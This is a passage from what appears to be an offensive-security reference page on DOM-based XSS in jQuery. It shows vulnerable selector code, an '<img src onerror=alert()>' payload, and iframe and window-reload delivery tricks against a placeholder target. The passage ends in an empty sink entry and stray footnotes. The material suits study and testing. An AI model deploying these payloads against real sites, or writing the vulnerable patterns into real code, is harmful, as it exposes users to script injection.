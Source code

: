 A snippet like the following was very commonly exploited ([source](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-jquery)):

<pre class="language-javascript" data-title="Old vulnerable example"><code class="lang-javascript">$(window).on('hashchange', function() {
<strong>    var element = $(location.hash);
</strong>    element[0].scrollIntoView();
});
</code></pre>

Here the `location.hash` _source_ is put into the vulnerable _sink_, which is exploitable with a simple `#<img src onerror=alert()>` payload. In the snippet, this is called on the [`hashchange`](https://developer.mozilla.org/en-US/docs/Web/API/Window/hashchange_event) event it is not yet triggered on page load, but only after the hash has _changed_. In order to exploit this, we need to load the page normally first, and then after some time when the page has loaded we can replace the URL of the active window which will act as a "change". Note that **reading** a location is not allowed cross-origin, but **writing** a new location is, so we can abuse this.&#x20;

If the target allows being iframed, a simple way to exploit this is by loading the target and changing the `src=` attribute after it loads:

{% code title="Using iframe" %}
```html
<iframe src="https://target.com/#" onload="this.src+='<img src onerror=alert()>'">
```
{% endcode %}

Otherwise, you can still load and change a URL by `open()`'ing it in a new window, waiting some time, and then changing the location of the window you held on to (note that the [`open()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) method requires user interaction like an `onclick=` handler to be triggered):

{% code title="Using window" %}
```html
<button onclick=start()>Start</button>
<script>
    function start() {  // Open a new tab
        let target = open("https://target.com/#");
        setTimeout(function () {  // Wait for target to load
            target.location = "https://target.com/#<img src onerror=alert()>";
        }, 2000);
    }
</script>
```
{% endcode %}

Important to note is that the vulnerable code above with `$(location.hash)` above is **not vulnerable anymore** with recent versions of JQuery because an extra rule was added that selectors _starting_ with `#` are _not_ allowed to have HTML, but **anything else is still vulnerable**. A snippet like below will still be vulnerable in modern versions because it is not prefixed with `#`, and it URL decodes the payload allowing the required special characters. Context does not matter here, simply `<img src onerror=alert()>` anywhere in the selector will work.&#x20;

{% code title="Modern vulnerable example" %}
```javascript
let hash = decodeURIComponent(window.location.hash.slice(1));
$(`h2:contains(${hash})`);
```
{% endcode %}

JQuery also has many other methods and CVEs if malicious input ends up in specific functions. Make sure to check all functions your input travels through for possible DOM XSS.&#x20;

#### Triggers (HTML sinks)

1. {% code title=".innerHTML" %}
   ```javascript
   let div = document.createElement("div")
   div.innerHTML = "<img src onerror=alert()>"
   ```
   {% endcode %}
2. {% code title=".innerHTML + DOM" %}
   ```javascript
   let div = document.createElement("div")
   document.body.appendChild(div)
   div.innerHTML = "<img src onerror=alert()>"
   ```
   {% endcode %}
3. {% code title="write()" %}
   ```javascript
   ```

[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed